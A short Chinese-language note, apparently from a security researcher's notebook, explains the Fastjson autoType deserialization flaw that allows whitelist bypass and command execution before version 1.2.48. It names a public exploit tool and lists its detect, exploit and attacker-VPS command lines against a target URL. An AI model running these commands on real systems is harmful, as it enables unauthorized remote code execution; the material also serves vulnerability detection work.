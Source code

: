 ## 应用简介

Fastjson是阿里巴巴公司开源的一款json解析器，其性能优越，被广泛应用于各大厂商的Java项目中

Fastjson在解析json的过程中，支持使用autoType来实例化某一个具体的类，并调用该类的set/get方法来访问属性。通过查找代码中相关的方法，即可构造出一些恶意利用链

Fastjson于1.2.24版本后增加了反序列化白名单，而在1.2.48以前的版本中，攻击者可以利用特殊构造的json字符串绕过白名单检测，成功执行任意命令

[Fastjson反序列化漏洞的检测和利用](https://mp.weixin.qq.com/s?__biz=MzIyNzY1MzUxMQ==&mid=100000244&idx=1&sn=801c947da8f74a4bda5039994951f040&chksm=685ca31c5f2b2a0a414e2848cc7f6e5a6778bbd309fc8d46bb4f4c7769d9f43ae06e0bae4959#rd)

**Fastjson 反序列化漏洞快速检测和利用工具**

https://github.com/21superman/fastjson_exploit

```bash
检测： java -jar fastjson_exploit-1.0-SNAPSHOT-all.jar -u 目标url

利用： java -jar fastjson_exploit-1.0-SNAPSHOT-all.jar -e -u 目标url

vps环境: java -jar fastjson_exploit-1.0-SNAPSHOT-all.jar -e -H vps公网ip -u 目标url
```

一个简单的Fastjson反序列化检测burp插件

？？自己的工具包里有